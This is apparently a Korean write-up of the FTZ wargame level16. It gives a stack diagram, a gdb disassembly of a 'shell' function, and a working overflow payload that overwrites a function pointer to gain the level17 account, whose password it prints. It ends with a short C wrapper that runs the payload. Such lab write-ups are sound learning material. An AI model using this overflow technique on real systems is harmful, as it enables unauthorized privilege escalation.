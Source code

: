 자 위의 내용을 토대로 스택을 생각해보면 다음과 같을 것이다.

```
buf[20 bytes] | dummy[20 bytes] | *call()[4 bytes] | crap[4 bytes] | dummy[8 bytes] | SFP(4) | RET(4)
0xbffff5a0	    0xbffff5c0			0xbffff5c8		0xbffff5cc		0xbffff5d0
AAAA							  [0X8048500]
```

자 그럼 이제 `shell` 함수의 주소를 찾아 함수포인터에 넣어주면 된다.

```
(gdb) disass shell
Dump of assembler code for function shell:
0x080484d0 <shell+0>:	push   ebp
0x080484d1 <shell+1>:	mov    ebp,esp
0x080484d3 <shell+3>:	sub    esp,0x8
0x080484d6 <shell+6>:	sub    esp,0x8
0x080484d9 <shell+9>:	push   0xc19
0x080484de <shell+14>:	push   0xc19
0x080484e3 <shell+19>:	call   0x80483b4 <setreuid>
0x080484e8 <shell+24>:	add    esp,0x10
0x080484eb <shell+27>:	sub    esp,0xc
0x080484ee <shell+30>:	push   0x80485b8
0x080484f3 <shell+35>:	call   0x8048364 <system>
0x080484f8 <shell+40>:	add    esp,0x10
0x080484fb <shell+43>:	leave  
0x080484fc <shell+44>:	ret    
0x080484fd <shell+45>:	lea    esi,[esi]
End of assembler dump.
```

`shell` 함수의 시작 주소는 `0x80484d0` 임을 확인할 수 있다.

그럼 간단하게 버퍼에 dummy까지 40byte를 채워주고 4byte에 `shell` 주소를 삽입하면 될 것이다.

```
[level16@ftz level16]$ (python -c 'print "A"*40+"\xd0\x84\x04\x08"';cat)|/home/level16/attackme
whoami
level17

my-pass

Level17 Password is "king poetic".
```

```c++
#include <stdio.h>
#include <stdlib.h>

#define BUF_SIZE 44

int main()
{
        char shellBuf[BUF_SIZE], cmdBuf[320];

        sprintf(cmdBuf,"(python -c \'print \"A\"");
        strcat(cmdBuf,"*40+\"\\xd0\\x84\\x04\\x08\"");
        strcat(cmdBuf,"';cat)|/home/level16/attackme");
        strcat(cmdBuf,"\x0A");
        printf("%s\n",cmdBuf);
        system(cmdBuf);
}
```

